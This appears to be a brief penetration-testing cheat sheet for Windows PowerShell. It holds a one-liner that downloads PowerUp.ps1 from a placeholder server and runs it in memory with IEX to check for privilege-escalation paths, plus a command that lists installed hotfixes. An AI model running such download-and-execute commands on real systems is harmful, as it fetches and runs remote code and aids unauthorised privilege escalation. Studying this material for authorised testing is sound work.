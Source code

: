 # Windows - Powershell

```powershell
powershell "IEX (New-Object Net.WebClient).DownloadString('<server>/PowerUp.ps1'); Invoke-AllChecks"
```

Run PowerUp on system

```
Get-Hotfix KB*******
```

Checking missing patches (Powershell)
